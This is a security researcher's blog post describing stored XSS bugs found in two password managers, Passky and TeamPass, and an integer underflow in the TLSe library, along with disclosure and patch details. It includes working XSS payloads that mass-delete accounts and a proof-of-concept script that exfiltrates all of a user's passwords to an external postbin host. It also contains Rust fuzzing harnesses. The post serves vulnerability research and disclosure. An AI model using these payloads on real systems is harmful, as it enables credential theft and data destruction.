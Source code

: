 # Finding Security Vulnerabilities in Open-Source Repos

This winter semester I took part in the TU Darmstadt [Hacker
Contest](https://www.usd.de/hacker-contest-wise-24-25/), where we had an exercise in which we had to find
security vulnerabilities in open source repositories. In this blog post I will share my findings. It's nothing crazy,
but it was still fun to find them. The results of the exercise were two XSS in [two](#passky) [different](#teampass) password managers by analysing the source code and an integer underflow in a [TLS server](#tlse) by fuzzing.

<div id="passky"></div>

## Passky

Passky, which is listed on the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers) is "the most unbloated password manager". It has
just under [200 Stars on GitHub](https://github.com/Rabbit-Company/Passky-Server) and also offers [paid premium accounts](https://passky.org/pricing).


### Vulnerability

Searching for `innerHTML` in the JavaScript code for the admin page immediately produces several
hits. The most promising is shown below.

<figure>
  <p> <img src="hackercontest/passky-innerHtml.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 1: Injection user controlled input using innerHTML.</p>
  </figcaption>
</figure>

Here user controlled data is loaded as JSON and then injected into the HTML dom using `innerHTML`. The source of the email is the registration site where the user can register with an email. The email is then stored in the `createAccount` function within the `Database.php` file where the input is not XSS sanitized as shown below.

<div id="f2"></div>
<figure>
  <p> <img src="hackercontest/passky-email-sanitation.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 2: E-Mail sanitation</p>
  </figcaption>
</figure>

This leads to an XSS on the admin panel via a user controlled email.

### Exploit

To build an XSS exploit for this vulnerability, the following limitations need to be considered.

- ~74 character limit before \@ (the limit differs for different inputs)
- Only lowercase letters
- "[]" are not allowed
- Strong Content Security Policy

But with the help of a [fellow student](https://github.com/PatrickBidinger) we found a way to bypass these limitation using two stages (linebreaks in the email is just for formatting here):

```html
// Assign document.querySelector to the window with a shorter name as the email is limited to a short amount of chars

<img src=x
  onerror="window.a=document.query&#x53;elector.bind(document)">@test.de

// Get the first user (attackers one should be the last ones) and then call the function deleteAccount to delete the user

<img src=x 
  onerror="delete&#x41;ccount(a('td .text-sm').inner&#x54;ext)">@test.de

// deleteAccount will reload the page and the payload is executed again until no user is left (exepct the attackers last one)
```

When the admin then opens the admin panel, it will list all users including their email addresses.
Since the JS-Code is not filtered or escaped properly, it will execute and delete the first user
account int he list. This triggers the page to reload, which again leads to the deletion of the next
user. After repeating this over and over again, all users but the malicious user accounts will be
deleted (including all of their data and stored passwords). 


<figure>
  <p> <img src="hackercontest/passky-deleting.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 3: Deleting all the accounts.</p>
  </figcaption>
</figure>


### Responsible Disclosure

The vulnerability was reported via Discord to the main author. As patch I recommended the use of `htmlentities`:

```git
--- a/server/src/Database.php
+++ b/server/src/Database.php
@@ -319,7 +319,7 @@ class Database{
                if(!preg_match("/^[a-z0-9]{128}$/i", $password)) return Display::json(5);

                $username = strtolower($username);
-               $email = strtolower($email);
+               $email = htmlentities(strtolower($email));
                $encrypted_password = self::encryptPassword($password);

                switch(self::isUsernameTaken($username)){
```

The author fixed the issue within a day and his responses were fast. I was even offered a Bug Bounty of 100€.

### Patch

The author fixed the vulnerability with the commit [`10882e6`](https://github.com/Rabbit-Company/Passky-Server/commit/10882e6a0a1fd6b946ad4dc7deb20c71d5eaf0cf). He also found additional
places where the sanitation of the user input was not good enough.


<div id="teampass"></div>

## TeamPass 

As Passky [TeamPass](https://github.com/nilsteampassnet/TeamPass) was found via the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers). TeamPass has over 1700
Stars on GitHub and "is a Collaborative Passwords Manager solution installed On-Premise." 


### Vulnerability

The procedure was similar to Passky. I cloned the repo and search for the `innerHTML` sink. I found a place
where the password is injected using `innerHTML` but while trying out I have noticed that the
password is sanitized before it is stored in the database. But going through the code I found that
the `tags` are not `htmlspecialchars` encoded but decoded as shown below.


<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 4: Tags are htmlspecialchars_decode</p>
  </figcaption>
</figure>


The tags are then later injected using JQuery in a insecure way leading to an XSS.

<figure>
  <p> <img src="hackercontest/teampass-script_tag.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 5: Tags are included insecurely</p>
  </figcaption>
</figure>


### Exploit

As TeamPass is a collaborative password manager an attacker could inject the XSS in a shared
password which is then executed in another users browser session allowing the attacker to extract
all passwords of this user. I also wrote a small POC which exfiltrates all passwords from another
user with higher privileges.

The first script of the exploit places the XSS by creating a script tag which includes a src
attribute where the next stage of the exploit is located as the tags have a length limit.

```js
function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}
var data = {
    "anyone_can_modify": 0,
    "complexity_level": 0,
    "description": "",
    "diffusion_list": [],
    "diffusion_list_names": [],
    "folder": 2,
    "email": "",
    "fields": [],
    "folder_is_personal": 0,
    "id": "",
    "label": "test",
    "login": "",
    "pw": "",
    "restricted_to": [],
    "restricted_to_roles": [],
    "tags": "<script\nsrc=http://tsmr.eu/_>",
    "template_id": null,
    "to_be_deleted_after_x_views": "",
    "url": "",
    "user_id": 10000000,
    "uploaded_file_id": "",
    "fa_icon": "",
    "otp_is_enabled": 0,
    "otp_phone_number": "",
    "otp_secret": ""
}


$.post(
    "sources/items.queries.php", {
    type: "update_item",
    data: prepareExchangedData(JSON.stringify(data), "encode", getKey()),
    key: getKey()
},
    function (data) {
        data = prepareExchangedData(data, "decode", getKey());
        console.log(data);
    }
)
```

The script which is then executed first loads a list of all passwords. It then sends a GET request to the attacker
controlled server on which the attacker can get the passwords as shown below.

<figure>
  <p> <img src="hackercontest/teampass-password_exfiltrate.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 6: Passwords which where exfiltrate by the XSS</p>
  </figcaption>
</figure>


```js
// This POC script is loaded via the script tag and then loads all passwords and sends them to a postbin.

waiting_for_passwords = 0
stolenPasswords = {}

function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}

function getPassword(item_key, callback) {
    var key = getKey();
    $.ajax({
        type: "POST",
        async: false,
        url: 'sources/items.queries.php',
        data: 'type=show_item_password&item_key=' + item_key + '&key=' + key,
        dataType: "",
        success: function (data) {
            try {
                data = prepareExchangedData(data, "decode", key);
                callback(item_key, true, atob(data["password"]));
            } catch (e) {
                callback(item_key, false, null)
                return false;
            }
        },
        onerror: function () {
            callback(item_key, false, null)
        }
    });
}

function gotNewPassword(item_key, status, password) {
    stolenPasswords[item_key].password = password;
    stolenPasswords[item_key].password_status = status;
    waiting_for_passwords -= 1;
}

function getFolderIds() {
    return JSON.parse(localStorage["teampassApplication"]).foldersList.map((x) => x.id);
}


function loadFolderInfo(folderId, callback) {
    var key = getKey();
    var dataArray = {
        id: folderId,
        restricted: "",
        start: 0,
        uniqueLoadData: "",
        nb_items_to_display_once: 100000,
    };

    $.post('sources/items.queries.php', {
        type: 'do_items_list_in_folder',
        data: prepareExchangedData(JSON.stringify(dataArray), 'encode', key),
        key: key,
    },
        function (retData) {
            //get data
            data = decodeQueryReturn(retData, key, 'items.queries.php', 'do_items_list_in_folder');
            for (var item in data["html_json"]) {
                item = data["html_json"][item];
                stolenPasswords[item["item_key"]] = item;
                waiting_for_passwords += 1
                getPassword(item["item_key"], gotNewPassword);

            }
            callback()
        })
}

function recursiveLoadFolders(folderIds, finish) {
    if (folderIds.length == 0)
        return finish()
    let folderid = folderIds.pop();
    loadFolderInfo(folderid, () => {
        recursiveLoadFolders(folderIds, finish);
    })
}

var folderIds = getFolderIds();
recursiveLoadFolders(folderIds, () => {
    while (waiting_for_passwords != 0) { }
    as_json = JSON.stringify(Object.values(stolenPasswords))
    fetch("https://www.postb.in/1730158735475-0322664373088?" + as_json)
});
```

### Responsible Disclosure

Since my emails were ending up in spam with the main author and a main contributor, I asked in a [GitHub issue](https://github.com/nilsteampassnet/TeamPass/issues/4399#issuecomment-2468267771) if they could see the emails, they responded and quickly fixed the issue.


### Patch

The patch is straight forward as they only have to replace the decode with the encode function as shown below.

<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 7: Fix</p>
  </figcaption>
</figure>

The vulnerability was fixed with [PR 4457](https://github.com/nilsteampassnet/TeamPass/pull/4457).


<div id="tlse"></div>

## TLSe

[TLSe](https://github.com/eduardsui/tlse), which has over 500 Stars on GitHub is a "single C file TLS 1.3, 1.2, 1.1 and
1.0 (without the weak ciphers) implementation, using libtomcrypt as crypto library."

### Vulnerability

As my goal was to find a memory corruption a a small fuzzing environment was created where 5 different open source repos
written in C where fuzzed. The only crash was in the TLSe server which is described below.

TLSe repo multiple different harnesses where created, one for the TLS client hello, one for the TLS client certificate and one
for the ANSI parser.

As I am a Rustacean the harness was written in Rust - of course - for this [`afl.rs`](https://rust-fuzz.github.io/book/afl.html) was used. For this I compiled TLSe to a static library
and used bindgen to generate the header files for Rust so I am able to call the C functions in Rust. I created a small
helper crate which was responsible for setting up the server and sending the input buffer to the target.

```rust
pub struct FuzzServer {
    context: *mut TLSContext,
    fragmenting: bool
}

impl FuzzServer {

    pub fn new_tcp(fragmenting: bool) -> FuzzServer {
        unsafe {
            let context = SSL_CTX_new(SSLv3_server_method());
            let context = SSL_new(context);
            SSL_set_fd(context, -1); // socket is wrapped...
            FuzzServer {
                context, fragmenting
            }
        }
    }

    pub fn send_fuzzing_input_raw(&mut self, input: &mut [u8]) -> i32 {

        if self.fragmenting {
            todo!("Implement Logic to fragmenting the sending");
        }

        unsafe {tls_consume_stream(self.context, input.as_mut_ptr(), input.len() as c_int, None)}
    }

// ...
```

With theses helper functions multiple harnesses for the different targets like the Client Hello or the Client Certificate
Parse function shown below can be easily created.

```rust
#[macro_use]
extern crate afl;
use anyhow::{Result};
use mytlse::client::{FuzzServer};

fn execute_fuzz_target(buf: &[u8]) -> Result<(i32)> {
    let mut ret = 0;
    unsafe {
        let mut myserver = FuzzServer::new_tcp(false);
        let mut buf = buf.to_vec();
        ret = myserver.send_fuzzing_input_raw(&mut buf);
    }
    Ok((ret))
}

#[cfg(fuzzing)]
fn main() {
    fuzz!(|data: &[u8]| {
        execute_fuzz_target(data);
    });
}

#[cfg(not(fuzzing))]
fn main() {
    let client_hello = FuzzServer::get_client_hello();
    execute_fuzz_target(&client_hello).unwrap();
}
```

For the client certificate request the fuzzer found multiple crashes in a matter of minutes.


<figure>
  <p> <img src="hackercontest/tlse-fuzzer_crashes.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 8: AFL++ found multiple crashes.</p>
  </figcaption>
</figure>

After debugging, the crashes could be identified as an integer underflow because of a wrong size check.

<figure>
  <p> <img src="hackercontest/tlse-wrong_size_check.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 9: Wrong size check leading to an integer underflow.</p>
  </figcaption>
</figure>

As shown Figure 9 the `size` variable is parsed from user-controlled input and then used
to subtract from the `remaining` variable. This leads to an integer overflow of the `remaining`
variable. This will cause the variable `res2` will get too big, leading to an `EXC_BAD_ACCESS` error
when `res2` is used to access data from `buf`.

### Exploit

With the crash file of the fuzzer it is possible to crash the target, but as the variable which is underflow is only
used to access data it is not possible to exploit it further.

### Responsible Disclosure

The crash was first reported via mail without any response (probably also landed in spam). After opening an [GitHub Issue](https://github.com/eduardsui/tlse/issues/105) the author responded directly and asking for an PR which fixes the issue. 

Which was done with [this](https://github.com/eduardsui/tlse/pull/106) PR.

### Patch

The patch is to change the comparison parameters to ensure that `size` is smaller then `remaining` before it is
subtracted from it.

<figure>
  <p> <img src="hackercontest/tlse-fix.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 10: Fix.</p>
  </figcaption>
</figure>


## Conclusion

In conclusion, it was a great time searching for vulnerabilities in open-source repositories. The experience was made
even better by the quick responses from the maintainers, who are all dedicated to improving their projects.